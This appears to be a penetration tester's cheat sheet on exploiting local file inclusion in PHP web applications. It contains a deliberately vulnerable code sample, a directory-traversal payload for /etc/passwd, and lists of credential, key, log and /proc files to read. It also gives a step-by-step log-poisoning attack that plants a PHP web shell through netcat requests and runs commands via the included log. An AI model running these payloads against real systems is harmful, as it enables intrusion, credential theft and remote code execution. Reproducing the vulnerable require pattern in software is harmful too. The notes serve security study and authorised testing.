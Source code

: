 # Local file inclusion

Local file inclusion means unauthorized access to filesystem.

With this we can get a hold of many sensitive files



In most web-services that use a database we can get a hold of the database username and password:


in wordpress the file is **wp-config.php**
And once you have gotten access to that you can do other things. Check out the chapter on mysql.


This is the definitive guide to Local File inclusion
https://highon.coffee/blog/lfi-cheat-sheet/

And this
http://securityidiots.com/Web-Pentest/LFI

And this:

https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/


The vulnerability stems from unsanitized user-input

Here is an example of php-code vulnerable to LFI. As you can see we just pass in the url-parameter into the require-function without any sanitization. So the user can just add the path to any file.
```
# index.php
    <?php
      $file = $_GET['page'];
      require($file);
     ?>
```


## Linux

### Tricks

Check if a folder exists, go into it and the go out.

```
index.php?page=../../../../../../var/www/dossierexistant/../../../../../etc/passwd%00"
```

### Sensitive file


#### Web server files
```
# Usually found in the root of the website
.htaccess
config.php
```

#### SSH
```
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts
```
#### Logs
```
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
```

#### General files

First you need to check the passwd file to find the users.
```
cat /etc/passwd
cat /etc/group
cat /etc/shadow
/var/mail/
```

#### User specific files

Found in the home-directory

```
.bash_history
.mysql_history
.my.cnf
```

#### Proc files

"Under Linux, /proc includes a directory for each running process, including kernel processes, in directories named /proc/PID, where PID is the process number. Each directory contains information about one process, including: /proc/PID/cmdline, the command that originally started the process."

https://en.wikipedia.org/wiki/Procfs

https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/
```
/proc/sched_debug # Can be used to see what processes the machine is running
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Bruteforcing SSH known_hosts

https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/


## LFI to shell

Under the right circumstances you might be able to get a shell from a LFI

There are some requirements. We need to be able to read the apache2 log files, either the success.log or the error.log

So once you have found a LFI vuln you have to inject php-code into the log file and then execute it.

1. Insert php-code into the log file.
This can be done with nc or telnet.

```
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

You can also add it to the error-log by making a request to a page that doesn't exists

```
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```


Or in the referer parameter.
```
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

2. Execute it
In the browser:
```
http://192.168.1.102/index.php?/var/log/apache2/access.log&cmd=id
```


https://www.youtube.com/watch?v=ttTVNcPnsJY
